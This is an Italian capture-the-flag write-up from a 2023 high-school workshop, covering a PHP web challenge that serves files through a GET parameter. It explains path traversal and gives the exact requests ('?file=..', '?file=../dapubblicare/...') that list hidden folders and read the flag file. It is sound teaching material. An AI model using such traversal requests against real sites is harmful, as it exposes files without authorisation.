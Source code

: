 # 4th HighSchools CTF Workshop - Perugia 2023

## [web] Trova le soluzioni 2

Il sito è scritto in PHP e permette di visualizzare le soluzioni delle verifiche pubblicate passando il nome del file come parametro `GET` (es `/read.php?file=20231204.txt`).

## Vulnerabilità

### Path Traversal

L'accesso a un file può essere eseguito in due modi: mediante un percorso "assoluto" (es `C:\Users\federico\Desktop\Hello.txt`) o attraverso un percorso "relativo" alla cartella in cui ci si trova (es se si è in `C:\Users\federico\Desktop\` il percorso relativo è `.\Hello.txt`).  
Per navigare nella cartella "padre" a quella in cui ci si trova bisogna utilizzare "`..`" (es scrivere `C:\Users\federico\Desktop\..\Documenti` equivarrà a `C:\Users\federico\Documenti`).  
Pertanto, passando al parametro `file` del file PHP `read.php` un percorso "relativo" differente a quello previsto dall'applicativo si genererà una vulnerabilità di tipo `Path Traversal`.

## Soluzione

Analizzando un link attuale (es `/read.php?file=20231204.txt`) sarà possibile modificarlo per andare a leggere i file presenti in una cartella differente:  
Eseguendo `/read.php?file=..` si visualizzerà l'elenco dei file presenti nella cartella padre:

```txt
.
..
dapubblicare
soluzioni
```

Eseguendo `/read.php?file=../dapubblicare` si visualizzerà l'elenco dei file presenti nella cartella "dapubblicare":

```txt
.
..
20240310.txt
20240509.txt
```

Eseguendo `/read.php?file=../dapubblicare/20240310.txt` si visualizzerà la soluzione della verifica contente la flag.
